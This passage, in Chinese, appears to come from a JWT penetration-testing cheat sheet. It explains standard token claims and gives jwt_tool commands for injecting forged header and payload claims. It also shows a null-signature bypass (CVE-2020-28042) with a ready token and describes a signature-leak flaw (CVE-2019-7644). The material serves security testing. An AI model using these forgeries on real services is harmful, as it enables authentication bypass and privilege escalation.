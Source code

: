 使用[ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)注入头部：`python3 jwt_tool.py JWT_HERE -I -hc header1 -hv testval1 -hc header2 -hv testval2`

### 有效载荷(Payload)

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

声明(claims)是预定义的键及其值：

- iss: 令牌的发行者
- exp: 过期时间戳(拒绝已过期的令牌)。注意：根据规范，这必须是以秒为单位的。
- iat: JWT的签发时间。可用于确定JWT的年龄
- nbf: "not before"，令牌生效的未来时间。
- jti: JWT的唯一标识符。用于防止JWT被重复使用或重放。
- sub: 令牌的主题(很少使用)
- aud: 令牌的受众(也很少使用)

使用[ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)注入有效载荷声明：`python3 jwt_tool.py JWT_HERE -I -pc payload1 -pv testval3`

## JWT签名

### JWT签名 - 空签名攻击 (CVE-2020-28042)

发送一个带有HS256算法但没有签名的JWT，如`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**利用方法**：

```powershell
python3 jwt_tool.py JWT_HERE -X n
```

**解构**：

```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```

### JWT签名 - 正确签名的泄露 (CVE-2019-7644)

发送一个签名不正确的JWT，端点可能会响应一个错误，泄露正确的签名。

- [jwt-dotnet/jwt: Critical Security Fix Required: You disclose the correct signature with each SignatureVerificationException... #61](https://github.com/jwt-dotnet/jwt/issues/61)
- [CVE-2019-7644: Auth0-WCF-Service-JWT中的安全漏洞](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)
